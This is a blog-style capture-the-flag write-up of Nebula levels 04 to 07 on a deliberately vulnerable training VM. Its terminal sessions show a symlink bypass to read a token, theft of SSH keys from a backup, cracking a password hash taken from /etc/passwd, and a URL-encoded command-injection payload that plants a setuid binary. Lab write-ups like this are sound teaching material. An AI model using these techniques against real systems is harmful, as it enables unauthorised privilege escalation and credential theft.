 Title: Exploit Education - Nebula Part 2
Date: 2020-09-05
Modified: 2020-09-05
Category: Learning
Tags: ctf, exploit, nebula
Summary:

## [Level 04](https://exploit.education/nebula/level-04/)

#### Solution
Source code shows, that verification happens only for `token` name. Let's create symbolic link to file and try to read its content. After reading it, let's use it as password.

#### Result
```bash
level04@nebula:/home/flag04$ ls -la
total 13
drwxr-x--- 2 flag04 level04   93 2011-11-20 21:52 .
drwxr-xr-x 1 root   root     160 2012-08-27 07:18 ..
-rw-r--r-- 1 flag04 flag04   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag04 flag04  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag04 level04 7428 2011-11-20 21:52 flag04
-rw-r--r-- 1 flag04 flag04   675 2011-05-18 02:54 .profile
-rw------- 1 flag04 flag04    37 2011-11-20 21:52 token
level04@nebula:/home/flag04$ ./flag04 token
You may not access 'token'
level04@nebula:/home/flag04$ ln -s ~flag04/token /tmp/not
level04@nebula:/home/flag04$ ./flag04 /tmp/not
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:~$ su flag04
Password:  # use token here
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## [Level 05](https://exploit.education/nebula/level-05/)

#### Solution
We're looking for weak permissions. It seems that `.backup` directory contains copy of ssh keys, which can be used.

#### Result
```bash
level05@nebula:~$ cd ~flag05
level05@nebula:/home/flag05$ ls -ahtl
total 9.0K
drwxr-x--- 1 flag05 level05   80 2020-09-05 19:18 .
-rw------- 1 flag05 flag05    20 2020-09-05 19:18 .bash_history
drwx------ 2 flag05 flag05    60 2020-09-05 19:17 .cache
drwxr-xr-x 1 root   root     200 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3.3K 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
level05@nebula:/home/flag05$ cd
level05@nebula:~$ ls ~flag05/.backup
backup-19072011.tgz
level05@nebula:~$ cp ~flag05/.backup/backup-19072011.tgz .
level05@nebula:~$ tar -xvf backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:~$ ssh flag05@localhost
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## [Level 06](https://exploit.education/nebula/level-06/)

#### Solution
The `flag06` came from a legacy unix system. It probably means, that password could be stored inside `/etc/passwd`. After retrieving password, I had to search for an answer, how to crack it. `john` helped with that.

#### Result
```bash
level06@nebula:~$ grep flag06 /etc/passwd
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
➜  ~ john --show pass
?:hello

1 password hash cracked, 0 left
level06@nebula:~$ su flag06
Password:  # use found password
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## [Level 07](https://exploit.education/nebula/level-07/)

#### Solution
User `flag07` is running CGI server, which is pinging provided host. Host is an parameter to URL. It means, we should be able to modify URL this way, to retrieve correct information.

#### Result
I struggled with that for a while.
```bash
level07@nebula:/home/flag07$ wget localhost:7007/index.cgi?Host=;getflag
--2020-09-05 20:31:46--  http://localhost:7007/index.cgi?Host=
Resolving localhost... 127.0.0.1
Connecting to localhost|127.0.0.1|:7007... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
index.cgi?Host=: Permission denied

Cannot write to `index.cgi?Host=' (Permission denied).
getflag is executing on a non-flag account, this doesn't count
```
I wasn't sure, why it is not revealing flag. Finally, I searched through an internet for similar solution and found what's my mistake. I was using `;` instead of `%3b` which is encoded semicolon. Instead of sending my payload to website, I was sending `Host=localhost` and later, I was running separate command, under my username.

Rookie error.


#### Alternative solution
After retrieving `getflag` I thought about another attempt to exploit a server. For this purpose, I used `exploit.c` prepared for another level, and I sent this query:
```bash
level07@nebula:/tmp$ cat > exploitable.sh << EOF
cp /tmp/exploit /home/flag07/exploit
chmod u+s /home/flag07/exploit
EOF
level07@nebula:/tmp$ wget localhost:7007/index.cgi?Host=%3b/tmp/exploitable.sh
level07@nebula:/tmp$ cd ~flag07
level07@nebula:/home/flag07$ ls
exploit  index.cgi  thttpd.conf
level07@nebula:/home/flag07$ ./exploit
flag07@nebula:/home/flag07$ getflag
You have successfully executed getflag on a target account
```
